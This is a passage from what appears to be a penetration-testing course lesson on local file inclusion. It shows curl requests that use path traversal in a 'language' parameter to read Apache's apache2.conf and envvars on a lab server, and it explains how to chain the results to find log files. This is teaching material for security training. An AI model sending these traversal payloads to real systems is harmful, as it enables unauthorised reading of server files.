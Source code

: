 As we can see, the scan returned over 60 results, many of which were not identified with the [LFI-Jhaddix.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt) wordlist, which shows us that a precise scan is important in certain cases. Now, we can try reading any of these files to see whether we can get their content. We will read (`/etc/apache2/apache2.conf`), as it is a known path for the apache server configuration:

Automated Scanning

```shell-session
root@htb[/htb]$ curl http://<SERVER_IP>:<PORT>/index.php?language=../../../../etc/apache2/apache2.conf

...SNIP...
        ServerAdmin webmaster@localhost
        DocumentRoot /var/www/html

        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined
...SNIP...
```

As we can see, we do get the default webroot path and the log path. However, in this case, the log path is using a global apache variable (`APACHE_LOG_DIR`), which are found in another file we saw above, which is (`/etc/apache2/envvars`), and we can read it to find the variable values:

Automated Scanning

```shell-session
root@htb[/htb]$ curl http://<SERVER_IP>:<PORT>/index.php?language=../../../../etc/apache2/envvars

...SNIP...
export APACHE_RUN_USER=www-data
export APACHE_RUN_GROUP=www-data
# temporary state file location. This might be changed to /run in Wheezy+1
export APACHE_PID_FILE=/var/run/apache2$SUFFIX/apache2.pid
export APACHE_RUN_DIR=/var/run/apache2$SUFFIX
export APACHE_LOCK_DIR=/var/lock/apache2$SUFFIX
# Only /var/log/apache2 is handled by /etc/logrotate.d/apache2.
export APACHE_LOG_DIR=/var/log/apache2$SUFFIX
...SNIP...
```

As we can see, the (`APACHE_LOG_DIR`) variable is set to (`/var/log/apache2`), and the previous configuration told us that the log files are `/access.log` and `/error.log`, which have accessed in the previous section.

Note: Of course, we can simply use a wordlist to find the logs, as multiple wordlists we used in this sections did show the log location. But this exercises shows us how we can manually go through identified files, and then use the information we find to further identify more files and important information. This is quite similar to when we read different file sources in the `PHP filters` section, and such efforts may reveal previously unknown information about the web application, which we can use to further exploit it.

***

### LFI Tools
